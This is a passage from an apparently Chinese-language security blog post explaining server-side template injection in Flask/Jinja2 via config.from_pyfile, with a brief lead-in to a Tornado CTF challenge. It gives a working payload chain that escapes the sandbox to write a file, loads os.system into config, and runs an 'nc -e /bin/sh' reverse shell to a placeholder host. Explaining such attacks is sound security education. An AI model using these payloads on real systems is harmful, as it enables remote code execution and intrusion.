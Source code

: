 ```python
    if isinstance(obj, string_types):
        obj = import_string(obj)
    for key in dir(obj):
        if key.isupper():
            self[key] = getattr(obj, key)
```

**简单的解释一下这个方法：**

这个方法将传入的文件使用 compile() 这个python 的内置方法将其编译成字节码(.pyc),并放到 exec() 里面去执行，注意最后一个参数 `d.__dict__`翻阅文档发现，这个参数的含义是指定 exec 执行的上下文，

**如图所示：**

![0fyNvV.png](https://s1.ax1x.com/2020/10/13/0fyNvV.png)

![0f6bFJ.png](https://s1.ax1x.com/2020/10/13/0f6bFJ.png)

![0fcPFH.png](https://s1.ax1x.com/2020/10/13/0fcPFH.png)

执行的代码片段被放入了 `d.__dict__` 中,这看似没设么用，但是神奇的是后面他调用了 from_object() 方法，根据源码

```
for key in dir(obj):
           if key.isupper():
               self[key] = getattr(obj, key)
```

这个方法会遍历 Obj 的 dict 并且找到大写字母的属性，将属性的值给 self[‘属性名’]，所以说如果我们能让 from_pyfile 去读这样的一个文件

```
from os import system
SHELL = system
```

到时候我们就能通过 config[‘SHELL’] 调用 system 方法了

那么文件怎么写入呢？Jinja2 有沙盒机制，我们必须通过绕过沙盒的方式写入我们想要的文件，具体的沙盒绕过可以参考我的一篇博文[python 沙盒逃逸备忘](http://www.k0rz3n.com/2018/05/04/Python 沙盒逃逸备忘/)

**最终的 payload:**

```
{ { ''.__class__.__mro__[2].__subclasses__()[40]('/tmp/evil', 'w').write('from os import system%0aSHELL = system') } }
//写文件
{ { config.from_pyfile('/tmp/evil') }}
//加载system
{ { config['SHELL']('nc xxxx xx -e /bin/sh') } }
//执行命令反弹SHELL
```

##### **3.Tornado**

写文章的时候正巧赶上护网杯出了一道 tornado 的 SSTI 于是这里也作为一个比较好的例子给大家说明

根据提示这道题的意思就是通过SSTI 获取 cookie_secret，但是这里过滤了很多东西
